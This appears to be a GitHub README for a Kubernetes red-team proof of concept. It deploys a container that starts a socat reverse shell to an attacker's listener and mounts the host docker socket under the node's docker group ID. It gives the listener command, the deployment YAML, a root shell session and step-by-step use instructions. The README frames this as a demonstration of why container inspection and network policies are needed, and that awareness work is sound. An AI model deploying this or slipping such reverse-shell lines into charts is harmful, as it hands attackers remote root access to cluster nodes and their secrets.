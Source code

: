 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart is actually installing in our cluster. The few lines of code to bring up the reverse shell could be really easily mixed inbetween legitimate charts and deployments so only careful inspection would make them apparent.

This deployment launches a docker container (see Dockerfile)/ When the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same security group id as the kubernetes nodes, like this:

        spec:
          securityContext:
            fsGroup: 412    # Group ID of docker group on k8s nodes.
          containers:
            - name: gkpown
              image: jordimiralles/redteam-gkpown
              imagePullPolicy: Always
              volumeMounts:
                - name: dockersock 
                  mountPath:   "/var/run/docker.sock"
          volumes:
          - name: dockersock 
            hostPath:
    path: /var/run/docker.sock

So we should have access to all the node context.You can check it very easily:
    
    tux at basecamp in ~/code/github/redteam-gkpown (master●●)
    $  socat file:`tty`,raw,echo=0 tcp-listen:9532
    /bin/sh: can't access tty; job control turned off
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # whoami
    root
    /gkpown # df -h
    Filesystem                Size      Used Available Use% Mounted on
    overlay                  25.4G     18.3G      7.0G  72% /
    tmpfs                     6.4G         0      6.4G   0% /dev
    tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
    /dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
    shm                      64.0M         0     64.0M   0% /dev/shm
    tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
    tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
    tmpfs                     6.4G         0      6.4G   0% /proc/kcore
    tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
    tmpfs                     6.4G         0      6.4G   0% /sys/firmware

How to use this:

change the XX's in ./gkpow/socat-shell.sh for your own listener IP, build the container (docker build ), change the target image in deployment.yaml so it points to your own image and apply the deployment in the cluster (kubectl apply -f deployment.yaml)
